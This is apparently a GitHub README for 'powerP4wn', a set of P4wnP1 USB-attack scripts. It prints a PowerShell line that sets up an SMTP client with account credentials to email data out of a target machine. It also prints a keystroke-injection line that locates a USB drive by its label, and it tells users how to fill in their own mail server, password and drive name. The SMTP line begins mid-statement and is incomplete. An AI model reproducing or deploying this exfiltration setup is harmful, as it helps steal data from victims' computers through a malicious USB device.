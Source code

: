 # powerP4wn
P4wnP1 scripts that actually work
trfm....this is the manual


>>>>>New-Object Net.Mail.SmtpClient("smtpserver",25);$c.EnableSsl=$true;$c.Credentials=New-Object System.Net.NetworkCredential("emailaccountcreds","emailaccountpsswd");$d=New-Object System.Net.Mail.MailMessage;$d.From="senderemail";$d.To.Add("recieveremail")

The above line needs YOUR email info. 
Replace the "smtpserver" with your smtp server name in between the "" (ex. "smtp.gmail.com").
Replace the "emailaccountcreds" with your email user account name in between the "" (ex. "dumbass@gmail.com").
Replace the "emailaccountpsswd" with your email account password in between the "" (ex. "iMs01337").
Replace the "senderemail" with who the email will from in between the "" (ex. "dumbass@gmail.com"). Use the same as the "emailaccountcreds"
Replace the "recieveremail" with who the email is to in between the "" (ex. "imsoleet@gmail.com"). you can just put in the same email address as "emailaccountcreds"

>>>>>type("$usbPath = Get-WMIObject Win32_Volume | ? { $_.Label -eq 'SanDisk' } | select name\n");//find usb drive

The above line needs YOUR usb drive label
replace SanDisk with what ever you labeled the .bin for your stateless usb you created.


"I have given you the information...... I cant understand it for you"

exit \n

